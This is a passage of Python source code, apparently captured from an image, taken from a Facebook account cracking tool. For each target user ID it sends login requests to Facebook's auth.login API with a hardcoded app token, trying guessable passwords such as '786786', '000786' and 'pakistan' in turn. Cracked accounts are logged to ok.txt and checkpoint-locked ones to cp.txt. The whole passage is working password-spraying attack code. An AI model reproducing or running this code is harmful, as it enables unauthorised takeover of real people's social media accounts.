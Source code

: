 		                                cps.append(uid)
		                            else:
		                                if 'access_token' in d:
		                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass4+" | "+name)
		                                    ok=open("ok.txt","a")
		                                    ok.write(uid+" | "+pass4+"\n")
		                                    ok.close()
		                                    oks.append(uid)
		                                else:
		                                    pass5="786786"
		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                    d=json.loads(q)
		                                    if 'www.facebook.com' in d['error_msg']:
		                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass5+"\x1b[1;91m | \x1b[1;97m"+name)
		                                        cp=open("cp.txt","a")
		                                        cp.write(uid+" | "+pass5+"\n")
		                                        cp.close()
		                                        cps.append(uid)
		                                    else:
		                                        if 'access_token' in d:
		                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass5+" | "+name)
		                                            ok=open("ok.txt","a")
		                                            ok.write(uid+" | "+pass5+"\n")
		                                            ok.close()
		                                            oks.append(uid)
		                                        else:
		                                            pass6="000786"
		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                            d=json.loads(q)
		                                            if 'www.facebook.com' in d['error_msg']:
		                                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass6+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                cp=open("cp.txt","a")
		                                                cp.write(uid+" | "+pass6+"\n")
		                                                cp.close()
		                                                cps.append(uid)
		                                            else:
		                                                if 'access_token' in d:
		                                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass6+" | "+name)
		                                                    ok=open("ok.txt","a")
		                                                    ok.write(uid+" | "+pass6+"\n")
		                                                    ok.close()
		                                                    oks.append(uid)
		                                                else:
		                                                    pass7="pakistan"
		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                                    d=json.loads(q)
		                                                    if 'www.facebook.com' in d['error_msg']:
		                                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass7+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                        cp=open("cp.txt","a")
		                                                        cp.write(uid+" | "+pass7+"\n")
		                                                        cp.close()
		                                                        cps.append(uid)